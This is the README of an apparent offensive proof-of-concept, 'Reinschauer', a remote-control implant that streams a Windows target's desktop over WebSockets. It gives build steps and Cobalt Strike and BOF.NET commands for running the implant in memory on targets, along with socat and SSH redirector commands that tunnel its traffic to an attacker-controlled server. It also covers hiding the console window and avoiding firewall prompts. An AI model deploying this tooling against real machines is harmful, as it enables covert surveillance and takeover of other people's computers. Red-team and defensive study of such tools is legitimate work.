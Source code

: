 # Reinschauer

![Hello](https://github.com/ps1337/reinschauer/blob/main/server/reinschauer.jpg?raw=true)

A PoC to remotely control Windows machines over Websockets.

![Hello](https://github.com/ps1337/reinschauer/blob/main/res/reinschauer.gif?raw=true)

- Can be executed as Go exe, .NET/C# exe and in-memory using [BOF.NET](https://github.com/CCob/BOF.NET) and Cobaltstrike.

![Hello](https://github.com/ps1337/reinschauer/blob/main/res/reinschauer_start.png?raw=true)

- Traffic can be tunneled via an interactive Beacon connection.
- Other than most HVNC implementations, `reinschauer` converts raw bitmaps to JPEG and compresses the resulting data before sending it across the network to reduce frame size.
- FPS and quality settings can be dynamically changed via the GUI. These affect the implant, so that network traffic is reduced. Dynamic scaling allows using this tool as an implant for machines with large screens.

![Hello](https://github.com/ps1337/reinschauer/blob/main/res/goodquality.gif?raw=true)

- Basic mouse and keyboard controls are possible.
- You can use the script in the `server` folder to generate TLS server files or bring your own.
- The server window can be resized freely, while click events should™ be translated to the correct pixel on the target machine.
- Use `reinschauer-server -h` for available options.

## Protocol

```
+----------------------------------------------------------------------------------------+
|                                                                                        |
|                                                                                        |
|                  +----------------------------------------------------+                |
|                  |#1: Type (Binary or Text)                           |                |
|                  |    Binary: JPG Frame                               |                |
|                  |                                                    |                |
|                  |#2: Text                                            |                |
|                  |    ELO (Ping)                                      |                |
|                  |    FPS <FPS Count>                                 |                |
|                  |    SCL <Scaler Count>                              |                |
|                  |    QUL <JPG Quality>                               |                |
|                  |    LCL X Y (Left Click + Coordinates)              |                |
|                  |    RCL X Y                                         |                |
|                  |    KEY <Char>                                      |      xxxxxx    |
|       xxxxx   <--+----------------------------------------------------+--> xxxx   xx   |
|       x   xx                     Websockets via TLS                        xx       x  |
| x     xxxxxx                                                                xxxxxxxxx  |
| xxx     x   xx                                                          xx    x        |
|     xxxxxxxx                                                              xxxxx xxxxxx |
|         x                                                                   xxxxx      |
|         xx                                                                   xx        |
|         x xx                                                                 xxx       |
|        xx  xx                                                                x xx      |
|        x    xx                                                              xx  xxx    |
|       x      xx                                                             x     xx   |
|       x       x                                                            xx      x   |
+----------------------------------------------------------------------------------------+
```

## FAQ

**How to build?**

- Install a new version of golang, `>=1.18`
- For debian-based distros: `sudo apt -y install libx11-dev libxcursor-dev xorg-dev libgl1-mesa-dev`

```bash
$ cd client && GOOS=windows GOARCH=amd64 go build
$ cd server && GOOS=linux GOARCH=amd64 go build
```

I've included a pre-built and standalone version of the dotnet variant in this repo. If you want to build it yourself, use the Visual Studio project file to build the x64 Release variant. If it doesn't happen automatically, download the required NuGet packages for the project via Visual Studio. Your target system most likely doesn't have these packages installed as well and therefore DLLs may be missing when executing the resulting exe on the target. To get around this, this project automatically invokes `ILMerge.exe` to bundle the resulting exe along with the required libraries. Therefore, use the generated file called `reinschauer-dotnet-standalone.exe` on targets.

> You may have to `go get` stuff before. Use `-ldflags -H=windowsgui` to disable to console window.

**Who's the client/server?**

> The `client` is executed on the target (Windows) machine. The `server` component is executed on the tester's (Linux) machine. It listens on `0.0.0.0:6969` by default. Both the Golang and C# client are compatible with the server.

**Is this a HVNC / Hidden Desktop?**

> No. It uses the same Desktop as the user.

**Some keys and key combinations do not work, pls fix**

> I know that |, @ and § might not work currently, at least on my german potato keyboard. Pls Fix.

**The Client uses too much CPU Time**

> Using a lower FPS value may work.

**I don't have a direct connection between `client` and `server`**

> You can use the Cobaltstrike CNA script, which tunnels traffic via Beacon.

**I don't have Cobaltstrike!**

> Use a `socat` redirector like:

```bash
socat TCP4-LISTEN:1337,fork TCP4:127.0.0.1:6969
ssh -R 6969:localhost6969 <IP>
```

> and start the client with the required parameters or hardcode them.

## Notes Regarding BOF.NET and Cobaltstrike Usage

First, set up [BOF.NET](https://github.com/CCob/BOF.NET) according to the manual. Also, load the standalone exe with `bofnet_load <Path to Exe>`. Then, decide how to use Reinschauer:

1. You can tunnel the traffic across an active Beacon connection.
2. You can send traffic to any other Internet-facing server

### Tunnelling Traffic via Beacon

- Set the session to interactive: `sleep 0`.
- Set up remote port forwarding: `rportfwd_local 6969 127.0.0.1 6969`.
- Execute Reinschauer in background: `bofnet_job reinschauer_dotnet.BofStuff`. This automatically causes Reinschauer to connect to `127.0.0.1:6969` on `127.0.0.1` of the target machine. This also deactivates TLS, since it uses the Beacon connection anyway.
- To kill Reinschauer, use `bofnet_jobkill <Job ID>`.

*Important note regarding remote port forwarding:* It seems that the `rportfwd_local` causes Beacon to listen on `0.0.0.0` and there seems to be no way to set it to `127.0.0.1` :/ This may trigger a Windows Firewall prompt on the system and that's not cool. If you don't want this, use another remote port forwarding solution for Cobaltstrike or use the following approach.

### Sending Traffic to Another Server

- Execute Reinschauer in background: `bofnet_job reinschauer_dotnet.BofStuff <Server IP> <Server Port> true`. The boolean parameter enables TLS usage.
- To kill Reinschauer, use `bofnet_jobkill <Job ID>`.


Then, use SSH and the [GatewayPorts](https://man.openbsd.org/sshd_config#GatewayPorts) feature: Add `GatewayPorts: clientspecified` to `sshd_config` and restart the SSH server. Then, `ssh -R '0.0.0.0:8080:localhost:6969'' [...]` will make your local port `6969` available on `0.0.0.0:8080`. Be careful :)

Or, set up a `socat` redirector on the Server:

```bash
socat TCP4-LISTEN:<Server Port>,fork TCP4:127.0.0.1:6969
ssh -R 6969:localhost6969 <IP>
```
